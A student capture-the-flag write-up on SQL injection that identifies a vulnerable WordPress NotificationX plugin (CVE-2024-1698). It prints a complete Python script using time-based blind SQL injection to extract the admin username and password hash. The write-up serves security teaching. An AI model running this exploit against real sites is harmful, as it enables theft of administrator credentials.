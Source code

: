 # CTF Week #8 (SQL Injection)

By exploring the website, using the developer tools, we obtained:

![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF8_img1.png)

We discovered that the website has the following plugins:
- Wordpress version 6.7.1.
- NotificationX version 2.8.1.
- FontAwesome version 4.7.0.

After that, we did some research to find any vulnerabilities in that plugins related to SQLinjection.
We found **CVE-2024-1698** on **WordPress NotificationX** .


By searching for the CVE exploit, we found this exploit script, which we adapted to our website:

```
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 0.3

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008//wp-json/notificationx/v1/analytics"

admin_username = ""
admin_password_hash = ""

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters + NULL byte
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += chr(ascii_val_username)
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character
    else:
        # Null byte reached, break the outer loop
        break

# Find admin password hash
for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters + NULL byte
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val_password)
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val_password == 0:
                print("[*] Admin credentials found:")
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
```

Then we changed the delay to 1, to handle possible limitations in responde time of the server.
By running the exploit, we obtained the hashed password!

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF8_img3.png)

